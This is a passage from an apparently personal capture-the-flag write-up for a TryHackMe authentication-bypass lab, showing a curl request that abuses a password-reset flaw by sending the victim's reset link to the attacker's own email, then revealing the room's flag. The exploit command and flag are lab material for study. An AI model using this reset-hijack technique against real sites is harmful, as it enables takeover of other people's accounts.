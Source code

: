 Now rerunning **Curl Request 2,** but with your `@acmeitsupport.thm` in the email field you'll have a 
ticket created on your account which contains a link to log you in as Robert. Using Robert's account, you can view their support tickets and reveal a flag.

**Curl Request 2 (but using your @acmeitsupport.thm account):**

```bash
abu@Abuntu:~/Documents/TryHackMe/Rooms/JrPenTester$ curl 'http://10.10.189.12/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```

![p9](./p9.png)

Now visiting, `http://10.10.189.12/customers/reset/57fe8e9ec1b7e50b778bb97846b276a2`

We get the flag in the Support Tickets section, 

<aside>
💡 Please don't tell anyone this! THM{AUTH_BYPASS_COMPLETE}

</aside>

Now, that we are somewhat deep in the path, I don’t care about filtering IP’s cause it’s first of all unique, private and I couldn’t bother less, now that I think about it, why didn’t I do this earlier?

### Cookie Tampering
